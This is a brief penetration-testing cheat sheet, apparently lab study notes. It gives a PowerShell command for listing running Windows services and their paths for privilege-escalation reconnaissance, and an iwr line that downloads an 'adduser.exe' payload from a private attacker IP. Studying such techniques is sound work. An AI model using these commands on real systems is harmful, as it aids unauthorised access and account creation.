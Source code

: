 # Windows Enumeration

### Listing Installed Windows Binaries
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Ivoke Web Request (get stuff from web site)
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
